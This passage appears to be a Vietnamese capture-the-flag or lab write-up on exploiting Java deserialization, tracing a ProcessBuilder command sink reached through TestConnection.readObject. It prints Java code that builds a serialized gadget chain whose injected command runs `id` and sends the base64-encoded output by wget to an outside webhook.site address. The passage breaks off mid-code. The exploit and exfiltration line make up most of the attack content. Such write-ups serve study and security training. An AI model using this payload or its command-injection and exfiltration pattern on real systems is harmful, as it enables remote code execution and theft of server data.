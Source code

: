 Ở đây có function là `connect()` bên trong là hàm `ProcessBuilder` là một unsafe method cùng với đó là câu lệnh OS Command được thực thi bằng nó đây là sự kết hợp giữa Untrusted Data cùng với Unsafe method và ta hoàn toàn có thể lợi dụng nó để thực hiện CMDi như ở level trước vấn đề bây giờ ta phải tìm xem class nào gọi đến hàm `connect()`.

Ở class TestConnection.java ta đã tìm thấy `connect()` được gọi.

```java 
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException, InterruptedException {
        in.defaultReadObject();
        // Re-create the connection
        this.connection.connect();
    }
```

Từ đây ta đã hoàn thiện sink rồi bây giờ chỉ cần tạo thêm object `TestConnection` vì trong đó có `readObject` để gọi hàm `connect()`.

![image](https://hackmd.io/_uploads/rJKJJSppxl.png)

Bây giờ viết payload để in ra được cookie và tiến hành inject thôi.

```java 
package com.example.javadeserialize;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class GeneratePayload {

    public static void main(String[] args) {
        try {
            String commandToRun = "id"; 
            String commandToExfiltrate = "wget --no-check-certificate --post-data=\"$(" + commandToRun + " | base64)\" https://webhook.site/12df02bf-338e-46a4-bed3-363434d64f1e";
            String finalPayload = "xxxx; " + commandToExfiltrate;

            System.out.println(">>> Generating Java deserialization payload...");
            System.out.println(">>> Command to be executed on server: " + finalPayload);

            // Step 1: Create the "inner" object (Sink)
            // This is the MyHTTPClient object containing our malicious command.
            MyHTTPClient maliciousHttpClient = new MyHTTPClient(finalPayload);

            // Step 2: Create the "outer" object (Entry Point)
            // This is the TestConnection object that will be deserialized by the server.
            // We inject our malicious object into its `connection` field.
            TestConnection payloadObject = new TestConnection(maliciousHttpClient);

            System.out.println(">>> Gadget chain created. Starting serialization and encoding...");

            // Step 3 & 4: Serialize and encode Base64 (unchanged)
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);

            // Write the TestConnection object (which contains MyHTTPClient) to the stream
            objectOutputStream.writeObject(payloadObject);
            objectOutputStream.close();

            byte[] serializedBytes = byteArrayOutputStream.toByteArray();
            String base64Payload = Base64.getEncoder().encodeToString(serializedBytes);

            // Step 5: Print the final result
            System.out.println("\n--- Done! ---");
```